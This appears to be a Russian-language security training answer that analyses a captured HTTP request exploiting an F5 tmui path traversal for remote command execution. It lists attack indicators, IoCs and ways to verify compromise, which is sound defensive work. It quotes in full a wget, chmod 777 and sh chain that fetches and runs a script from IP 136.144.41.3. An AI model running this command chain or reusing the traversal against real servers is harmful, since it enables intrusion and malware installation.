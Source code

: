 # В файле task1.txt привёден текст HTTP-запроса.  
## 1. Опишите, что происходит (чего добиваются атакующие).  
В HTTP запросе пытаются реализовать удалённое выполнение команд (RCE):

Команды которые хотят выполнить:

wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh; chmod 777 ohsitsvegawellrip.sh; sh ohsitsvegawellrip.sh; wget https://iplogger.org

1) wget http://136.144.41.3/igipdmcdmsklcmk/ohsitsvegawellrip.sh - установка скрипта.
2) chmod 777 ohsitsvegawellrip.sh - выдача полных прав скрипту.
3) sh ohsitsvegawellrip.sh - выполнение скрипта.
4) wget https://iplogger.org - дополнительная загрузка ip логера для мониторинга и проведения доп. атак.

## 2. Выделите признаки, по которым понятно, что происходит атака.  
В ссылке присутствует /.. , это может указывать на обход механизма безопасности, такого как доступ к файлам.

В запросе устанавливается скрипт с неизвестного ip адреса по незащищенному соединению, потом этому скрипту выдаются ПОЛНЫЕ права (не только право на исполнение), далее он запускается.

После этого дополнительно устанавливается iplogger.

## 3. Выделите IoС'и, которые могут быть использованы для выявления подобной активности в будущем.  
136.144.41.3 - ip адрес с которого устанавливается вредоносный скрипт

Команды wget, chmod, и sh в запросах могут служить индикатором попыток удалённого выполнения вредоносных скриптов.

## 4. Укажите, каким образом можно удостовериться в том, удалось ли атакующим достигнуть того, чего они добивались этим запросом.   
Проверить логи веб-сервера на наличие успешных запросов к tmui/locallb/workspace/tmshCmd.jsp
Проверить наличие загруженного файла ohsitsvegawellrip.sh
Убедиться, что на сервере не запущены подозрительные процессы, которые могли быть инициированы этим скриптом.
Анализировать сетевой трафик на предмет исходящих соединений к IP-адресу 136.144.41.3

